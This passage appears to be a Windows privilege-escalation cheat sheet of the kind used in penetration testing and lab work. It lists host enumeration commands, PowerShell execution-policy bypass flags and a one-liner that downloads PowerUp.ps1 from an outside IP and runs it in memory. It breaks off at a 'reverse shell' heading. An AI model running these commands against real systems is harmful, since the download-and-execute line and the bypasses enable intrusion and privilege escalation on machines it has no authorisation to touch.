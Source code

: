 **Localgroups:**

```
systeminfo
set
hostname
net users
net user user1
net localgroups
accesschk.exe -uwcqv "Authenticated Users" *
whoami /all
whoami /priv

netsh firewall show state
netsh firewall show config

# Set path
set PATH=%PATH%;C:\xampp\php

tree c:\ /F
```
### Windows Paths

```
C:\Windows\System32
C:\Windows\SysWow64
C:\Windows\SysNative <- 64 Bit
```

### Powershell

Path

```
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe
```

Open up Powershell

```
powershell.exe -nop -exec bypass
```

Non-interactive execute powershell file

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

Invoke PowerUp without touching disk

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.25/PowerUp.ps1'); Invoke-AllChecks"
```

Invoke a reverse shell
